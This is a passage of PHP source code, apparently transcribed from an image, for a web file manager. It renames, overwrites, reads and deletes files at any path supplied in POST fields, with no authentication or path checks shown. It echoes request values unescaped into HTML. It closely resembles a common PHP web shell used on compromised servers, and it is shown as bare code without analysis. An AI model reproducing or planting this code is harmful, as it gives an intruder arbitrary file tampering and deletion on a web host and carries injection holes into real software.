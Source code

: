 }
$_POST['name'] = $_POST['newname'];
}
echo '<form method="POST">
New Name : <input name="newname" type="text" size="20" value="'.$_POST['name'].'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="rename">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'edit'){
if(isset($_POST['src'])){
$fp = fopen($_POST['path'],'w');
if(fwrite($fp,$_POST['src'])){
echo '<font color="green">Edit File Success!</font><br />';
}else{
echo '<font color="red">Failed for Edit File!</font><br />';
}
fclose($fp);
}
echo '<form method="POST">
<textarea cols=80 rows=20 name="src">'.htmlspecialchars(file_get_contents($_POST['path'])).'</textarea><br />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="edit">
<input type="submit" value="Go" />
</form>';
}
echo '</center>';
}else{
echo '</table><br /><center>';
if(isset($_GET['option']) && $_POST['opt'] == 'delete'){
if($_POST['type'] == 'dir'){
if(rmdir($_POST['path'])){
echo '<font color="green">Delete Dir Success!</font><br />';
}else{
echo '<font color="red">Failed for Delete Dir!</font><br />';
}
}elseif($_POST['type'] == 'file'){
if(unlink($_POST['path'])){
echo '<font color="green">Delete File Success!</font><br />';
}else{
echo '<font color="red">Failed for Edit File!</font><br />';
}
}
}
echo '</center>';
$scandir = scandir($path);
echo '<div id="content"><table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr class="first">
<td><center>Name</center></td>
<td><center>Size</center></td>
<td><center>Permissions</center></td>
<td><center>Options</center></td>
</tr>';
